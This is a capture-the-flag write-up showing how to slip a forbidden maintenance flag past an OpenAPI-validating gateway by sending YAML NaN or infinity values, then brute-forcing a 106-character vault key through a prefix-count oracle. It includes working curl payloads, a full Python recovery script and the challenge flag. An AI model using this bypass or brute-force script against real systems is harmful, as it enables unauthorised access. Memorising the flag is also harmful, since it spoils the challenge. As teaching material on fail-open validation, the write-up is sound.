

## Challenge Overview

The Aurora relay fleet is controlled through a gateway that validates every request against a published OpenAPI contract before forwarding it to the fleet controller. The contract reserves a `maintenance` flag for the on-site maintenance console and pins it to `false`, so a normal client can never ask for maintenance access.

The goal is to convince the gateway to accept `maintenance: true` anyway, open the console, and recover the payload it guards.

| Item | Value |
|------|-------|
| Objective | Make the gateway accept `maintenance: true` and open the maintenance console |
| Target | `nc <ip> <port>` (a fresh port is assigned per session) |
| Contract | `GET /openapi.yaml` |

The instance port changes every session, and — as it turns out — part of the secret is randomised per instance, so the exploit has to be run against the instance you were assigned.

## Attack Chain



The chain is linear: read the contract, find the fail-open path, then drive the console's prefix oracle one character at a time.

## Initial Analysis

### Reading the published contract

The gateway serves its own contract, so the first step is simply fetching it:

```bash
curl -sS "http://<ip>:<port>/openapi.yaml"
```

The relevant parts:

```yaml
paths:
  /v1/relays/{id}/command:
    post:
      operationId: sendCommand
      summary: Send a maintenance-gated command to a relay.
      parameters:
        - name: id
          in: path
          required: true
          schema:
            type: string
            pattern: "^[a-z0-9-]{1,32}$"
      requestBody:
        required: true
        content:
          application/json:
            schema:
              $ref: "#/components/schemas/Command"
          application/yaml:
            schema:
              $ref: "#/components/schemas/Command"
components:
  schemas:
    Command:
      type: object
      additionalProperties: false
      required: [command, throttle]
      properties:
        command:
          type: string
          enum: [status, ping, reboot]
        throttle:
          type: number
          minimum: 0
          maximum: 100
        maintenance:
          type: boolean
          enum: [false]
```

Compressed into a table:

| Constraint | Meaning |
|------------|---------|
| `required: [command, throttle]` | Both fields must be present |
| `additionalProperties: false` | No extra fields allowed |
| `command: enum [status, ping, reboot]` | Closed set of operations |
| `throttle: number, 0..100` | Numeric range |
| `maintenance: enum [false]` | The pin — the console is "off" |
| Content types | `application/json` **and** `application/yaml` |

The last row is the interesting one. Two content types mean two independent parsers decide what the body means, and the validator has to agree with the controller about both.

### What the gateway actually enforces

The validation errors are informative, which made it easy to map the checks:

| Request | Response |
|---------|----------|
| `maintenance: true` | `value must be false` |
| `maintenance: 1` / `"false"` / `null` | `got number, want boolean` / `got string, want boolean` / `got null, want boolean` |
| Extra field `x` | `additional properties 'x' not allowed` |
| `throttle: 101` | rejected (maximum enforced) |
| `id = AURORA-1` | `does not match pattern '^[a-z0-9-]{1,32}$'` |

A few non-obvious behaviours were also confirmed by experiment:

- **Duplicate JSON keys resolve last-wins** in both the validator and the controller, so the classic "validator reads one value, app reads another" trick does not work here.
- **The validator only parses the first JSON value**, but the controller parses the whole body strictly, so trailing data makes the controller fail open with an empty command. That mismatch was a dead end by itself.
- **The `{id}` pattern is checked against the raw, still-escaped path segment** (`%61urora-1` fails the pattern), while `..` segments are cleaned by the router and answered with a `301`.

Dead ends that were ruled out before the real bug was found:

- Duplicate-key parser differentials in JSON and YAML.
- Content-Type confusion (duplicate `Content-Type` headers, vendor types, parameter juggling).
- HTTP framing tricks (`Transfer-Encoding: chunked`, `Content-Length` conflicts), pipelining and smuggling — the validator and the controller observe the same body.
- Path tricks (`..`, encoded slashes/dots, semicolons, case changes) and undocumented routes.
- Undeclared query parameters, headers and cookies.
- Overwriting the contract (`PUT /openapi.yaml` returns `405`, `Allow: GET, HEAD`).
- Alternate specs (`/openapi.json`, `/internal/openapi.yaml`, …) and `h2c`.

## The Bypass: YAML Non-Finite Numbers

`JSON` cannot represent `NaN` or infinity, but `YAML` can: `.nan`, `.inf` and `-.inf`. The contract accepts `application/yaml`, so those values are reachable.

Sending a non-finite `throttle` makes the schema check abandon the request instead of validating it. The request is then forwarded **unvalidated**, which means `maintenance: true` — and even completely undeclared fields — reach the controller.

Proof, in one command:

```bash
BODY=$(printf "command: status\nthrottle: .nan\nmaintenance: true\n")
curl -sS -X POST "http://<ip>:<port>/v1/relays/aurora-1/command" \
  -H 'Content-Type: application/yaml' --data-binary "$BODY"
```

Response:

```json
{
  "console": "maintenance",
  "message": "vault sealed - submit candidate in the 'key' field; diagnostics report characters verified",
  "relay": "aurora-1",
  "verify": { "field": "key", "length": 106, "matched": 0 }
}
```

A control request with a finite throttle is still rejected:

```bash
BODY=$(printf "command: status\nthrottle: 10\nmaintenance: true\n")
# -> 400 {"detail":"... error at \"/maintenance\": ... value must be false"}
```

`throttle: .inf` and `throttle: -.inf` behave exactly like `.nan`. The same body with `maintenance: false` returns the normal `{"command":"status","console":"public",...}` response, so the console really is being driven by the flag.

**Why it works (evidence-based):** the requests above show that *nothing* in the body is validated when the throttle is non-finite — `maintenance: true` is accepted (which the enum forbids) and an undeclared `key` field is accepted too (which `additionalProperties: false` forbids). The most likely mechanism is that the schema validator cannot handle a non-finite float and returns an internal error, and the middleware treats "validation could not run" as "forward the request" rather than rejecting it. That last sentence is an inference about the implementation; the observable behaviour (full validation bypass) is what was measured.

## The Maintenance Console

With the console open, the controller is a vault that accepts a candidate key and reports diagnostics:

| Field | Meaning |
|-------|---------|
| `message` | Status text (`vault sealed` until the key is correct) |
| `verify.field` | Name of the field to submit: `key` |
| `verify.length` | Length of the expected key — **106** |
| `verify.matched` | How many leading characters of the submitted key are correct |

The key is submitted in the same body:

```bash
KEY='prg{'
BODY=$(printf "command: status\nthrottle: .nan\nmaintenance: true\nkey: '%s'\n" "$KEY")
```

Probing `verify.matched` shows it is a **strict prefix count**:

| Submitted `key` | `matched` | Interpretation |
|-----------------|-----------|----------------|
| `""` | 0 | nothing matches |
| `p` | 1 | key starts with `p` |
| `prg{` | 4 | four correct leading characters |
| `prg{x` | 4 | wrong 5th character stops the count |
| `Xrg{` | 0 | a wrong first character is not tolerated |

That is a complete character-by-character oracle: for each position, try every candidate character and keep the one that increases `matched` by exactly one.

## Recovering the 106-Character Key

The recovery is a simple left-to-right search. Characters are tried with lowercase letters and digits first (the key is alphanumeric), then the rest of the printable set, then control characters and a few non-ASCII code points.

```python title="recover_key.py"
#!/usr/bin/env python3
import http.client as hc, json, os, string, time
from concurrent.futures import ThreadPoolExecutor

HOST, PORT = "<ip>", int("<port>")
KEYFILE = "key.txt"

ALPHA = (list(string.ascii_lowercase) + list(string.digits)
         + list(string.ascii_uppercase) + ['_', '-', '{', '}']
         + [c for c in map(chr, range(0x20, 0x7f))
            if c not in string.ascii_letters + string.digits + "_-{}"]
         + [chr(c) for c in range(0x00, 0x20)] + ['\x7f'])


def yaml_dq(s):
    """Encode a candidate as a YAML double-quoted scalar so any byte survives."""
    out = []
    for ch in s:
        o = ord(ch)
        if ch == '"':
            out.append('\\"')
        elif ch == '\\':
            out.append('\\\\')
        elif o == 0:
            out.append('\\0')
        elif o < 0x20 or o == 0x7f:
            out.append('\\x%02x' % o)
        else:
            out.append(ch)
    return '"%s"' % ''.join(out)


def probe(key):
    """Ask the console how much of `key` matches. Returns verify.matched."""
    body = ("command: status\nthrottle: .nan\nmaintenance: true\nkey: %s\n"
            % yaml_dq(key))
    try:
        c = hc.HTTPConnection(HOST, PORT, timeout=6)
        c.request("POST", "/v1/relays/aurora-1/command", body,
                  {"Content-Type": "application/yaml"})
        r = c.getresponse()
        data = json.loads(r.read().decode())
        c.close()
        return data.get("verify")
    except Exception:
        return None


known = open(KEYFILE).read() if os.path.exists(KEYFILE) else ""
while len(known) < 106:
    n = len(known)
    found = None
    # Test the alphabet in small concurrent batches, stop at the first hit.
    with ThreadPoolExecutor(max_workers=6) as ex:
        for i in range(0, len(ALPHA), 6):
            for ch, verify in ex.map(lambda c: (c, probe(known + c)),
                                     ALPHA[i:i + 6]):
                if verify and verify.get("matched") == n + 1:
                    found = ch
                    break
            if found:
                break
    if found is None:
        continue
    # Confirm before persisting, so a flaky request cannot poison the prefix.
    check = probe(known + found)
    if not check or check.get("matched") != n + 1:
        continue
    known += found
    open(KEYFILE, "w").write(known)
    print(len(known), repr(known))
```

Two practical details mattered a lot:

1. **The key is instance-scoped.** The first 49 characters are static — `prg{n4n_sl1pp3d_p4st_th3_sp3c_[A-Za-z0-9]{8179465` — but the suffix is randomised per instance. A long prefix recovered from one instance verifies at only `matched: 49` on another, so the search must run against the instance you intend to submit to. An early attempt that rotated across many instances recovered a different instance's suffix and stalled.
2. **Keep the load modest.** Batching six probes at a time recovered the last 57 characters in about 79 seconds, while hammering the port with many parallel connections caused the service to reset connections and drop the run.

## Flag

Submitting the fully recovered 106-character key returns:

```json
{
  "console": "maintenance",
  "message": "vault key confirmed - payload released",
  "relay": "aurora-1",
  "vault": "prg{n4n_sl1pp3d_p4st_th3_sp3c_[A-Za-z0-9]{8179465937987cQ4YCJ46db0b40f33cf8fc8bed99049ccab0a0c3f80869_523}",
  "verify": { "field": "key", "length": 106, "matched": 106 }
}
```

The recovered payload, and the flag for this instance:

```text
prg{n4n_sl1pp3d_p4st_th3_sp3c_[A-Za-z0-9]{8179465937987cQ4YCJ46db0b40f33cf8fc8bed99049ccab0a0c3f80869_523}
```

Because the suffix is generated per instance, this exact value only reproduces on the instance it was recovered from; the technique reproduces everywhere.

## Key Takeaways

- **Fail-open validation is equivalent to no validation.** The gateway was strict for every well-formed body and then silently forwarded the one class of input its validator could not represent. A defensive gateway must reject on *any* validation failure, including internal errors, and must never forward a body it did not fully approve.
- **Every accepted content type is a new parser surface.** JSON cannot express `NaN` or infinities; YAML can. Declaring two request content types doubles the number of numeric, boolean and encoding edge cases an attacker can reach, and they must all be validated identically.
- **Numeric edge cases break naive comparisons.** Non-finite floats defeat range checks (`NaN < 0` and `NaN > 100` are both false) and, in this case, the rest of the schema validation with them.
- **Diagnostic oracles leak secrets.** A counter that reports "how many characters are correct" is enough to recover an entire key one character at a time; such responses must never be exposed to untrusted callers.
- **Per-instance secrets change the workflow.** When part of a secret is randomised, reconnaissance and exploitation must both happen against the assigned instance; results from another instance are not transferable.
- **Read the contract first.** The published spec names the exact field that is pinned, the exact error surface, and the extra content type that made the bypass possible.
